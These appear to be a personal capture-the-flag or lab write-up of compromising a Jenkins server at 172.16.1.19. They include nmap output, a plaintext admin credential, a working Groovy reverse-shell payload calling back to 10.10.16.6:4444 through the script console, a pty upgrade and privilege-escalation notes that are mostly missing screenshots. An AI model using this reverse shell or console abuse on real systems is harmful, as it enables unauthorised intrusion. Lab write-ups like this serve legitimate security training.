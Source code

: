 ## NMAP
```
❯ nmap -sCV -T4 -Pn 172.16.1.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-09 08:59 PST
Nmap scan report for 172.16.1.19
Host is up (0.081s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Jetty 9.4.27.v20200227
|_http-server-header: Jetty(9.4.27.v20200227)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: Host: 127.0.0.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.18 seconds
```

![[Pasted image 20231209090242.png]]

Admin_129834765 SamsungOctober102030

![[Pasted image 20231211160123.png]]

Go to admin console and scripts

https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6

![[Pasted image 20231211160321.png]]

```
String host="10.10.16.6";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Linpeas did not show much but pspy64 provided me credentials


![[Pasted image 20231211162815.png]]

Enumerating Ian

![[Pasted image 20231211163103.png]]

Enumerating what he has access too

![[Pasted image 20231211163153.png]]

Accessing the directory that the root directory is installed to. 

![[Pasted image 20231211163310.png]]